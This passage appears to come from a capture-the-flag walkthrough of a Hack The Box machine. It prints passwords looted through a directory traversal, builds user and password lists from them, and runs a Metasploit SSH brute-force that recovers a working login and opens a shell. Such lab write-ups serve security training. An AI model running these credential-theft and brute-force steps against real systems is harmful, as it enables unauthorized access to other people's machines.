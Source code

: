 ```
[*] Auxiliary module execution completed

---

root@kali:/# cat /root/.msf4/loot/20201213102411_default_10.10.10.184_nvms.traversal_836293.txt
1nsp3ctTh3Way2Mars!
Th3r34r3To0M4nyTrait0r5!
B3WithM30r4ga1n5tMe
L1k3B1gBut7s@W0rk
0nly7h3y0unGWi11F0l10w
IfH3s4b0Utg0t0H1sH0me
Gr4etN3w5w17hMySk1Pa5$
```

Then, create the following username/password list.
```
root@kali:/# cat users.txt 
nadine
nathan

root@kali:/# cat passwords.txt 
1nsp3ctTh3Way2Mars!
Th3r34r3To0M4nyTrait0r5!
B3WithM30r4ga1n5tMe
L1k3B1gBut7s@W0rk
0nly7h3y0unGWi11F0l10w
IfH3s4b0Utg0t0H1sH0me
Gr4etN3w5w17hMySk1Pa5$
```

Using the list created, try to bruteforce SSH service.<br>
We can find a credential `nadine:L1k3B1gBut7s@W0rk`.
```
msf6 > use auxiliary/scanner/ssh/ssh_login
msf6 auxiliary(scanner/ssh/ssh_login) > set rhosts 10.10.10.184
rhosts => 10.10.10.184
msf6 auxiliary(scanner/ssh/ssh_login) > set user_file users.txt
user_file => users.txt
msf6 auxiliary(scanner/ssh/ssh_login) > set pass_file passwords.txt
pass_file => passwords.txt
msf6 auxiliary(scanner/ssh/ssh_login) > run

[+] 10.10.10.184:22 - Success: 'nadine:L1k3B1gBut7s@W0rk' ''id' is not recognized as an internal or external command,  operable program or batch file.  '
[*] Command shell session 1 opened (10.10.14.42:35027 -> 10.10.10.184:22) at 2020-12-13 10:29:27 +0900
[-] 10.10.10.184:22 - While a session may have opened, it may be bugged.  If you experience issues with it, re-run this module with 'set gatherproof false'.  Also consider submitting an issue at github.com/rapid7/metasploit-framework with device details so it can be handled in the future.
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
